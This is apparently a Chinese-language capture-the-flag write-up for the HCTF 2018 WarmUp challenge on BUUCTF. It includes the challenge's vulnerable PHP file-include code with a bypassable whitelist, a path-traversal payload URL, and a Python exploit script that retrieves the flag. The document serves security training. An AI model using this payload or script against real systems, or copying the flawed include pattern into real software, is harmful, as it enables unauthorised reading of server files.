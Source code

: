 # 分析

来自[[HCTF 2018]WarmUp](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)

页面是一张图片，查看源码，提示访问source.php

![image-20240625163859140](image/image-20240625163859140.png)

代码审计，分析绕过

```php
<?php
  highlight_file(__FILE__);
  //定义一个类
  class emmm
  {
    //定义一个检查函数
    public static function checkFile(&$page)
    { 
      $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
      //第一个过滤，判断是否为空，为字符串
      if (! isset($page) || !is_string($page)) {
        echo "you can't see it";
        return false;
      }
      //第二个过滤，判断参数是否存在于关联数组中
      if (in_array($page, $whitelist)) {
        return true;
      }
      //过滤出file参数中遇到第一个?前的字符串
      $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      //先使用urldecode解码，再进行过滤，如上
      $_page = urldecode($page);
      $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
      );
      //检查是否存在数组中
      if (in_array($_page, $whitelist)) {
        return true;
      }
      echo "you can't see it";
      return false;
    }
  }
  if (! empty($_REQUEST['file'])
    && is_string($_REQUEST['file'])
    && emmm::checkFile($_REQUEST['file'])
  ) {
      include $_REQUEST['file'];
      exit;
  } else {
      echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
  }  
?> 
```

又看到了hint.php，访问得到提示flag的文件名可能是ffffllllaaaagggg

![image-20240625165002415](image/image-20240625165002415.png)

payload=`http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/?file=source.php?../../../../../ffffllllaaaagggg`

# exp

```python
import requests
import re

url = "http://94f0791c-c6e0-45f3-b927-8f12d929ab9c.node5.buuoj.cn:81/"
kw = {
	'file':'source.php?../../../../../ffffllllaaaagggg'
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

